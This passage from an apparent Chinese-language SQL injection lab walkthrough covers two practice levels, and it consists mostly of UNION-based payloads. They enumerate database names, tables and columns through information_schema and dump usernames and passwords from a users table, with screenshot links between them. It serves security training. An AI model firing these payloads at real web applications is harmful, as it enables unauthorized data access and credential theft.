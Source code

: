 ```sql
?id=-1' union select 1,2,group_concat(concat_ws("-",username,password)) from users  --+
```

![image-20230813195854239](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230813195854239.png)

```sql
?id=-1' union select 1,database(),group_concat(concat_ws("-",username,password)) from users  --+
```



![image-20230813195926050](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230813195926050.png)

```sql
?id=-1' union select 1,group_concat(username),group_concat(password) from users  --+
```



![image-20230813195832968](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230813195832968.png)

# 第二关

> 数字型

**判断注入类型**

```sql
?id=1 and 1=2
```

**判断字段数**

**判断显示位**

**获取数据库和版本信息**

```sql
?id=-1 union select 1,database(),version()  --+
```

**获取表名**

```sql
?id=-1 union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()  --+
```

**获取字段名**

```sql
?id=-1 union select 1,database(),group_concat(column_name) from information_schema.columns  where table_name='users' --+
```

**获取数据**

```sql
?id=-1 union select 1,2,group_concat(concat_ws("-",username,password)) from users --+
```
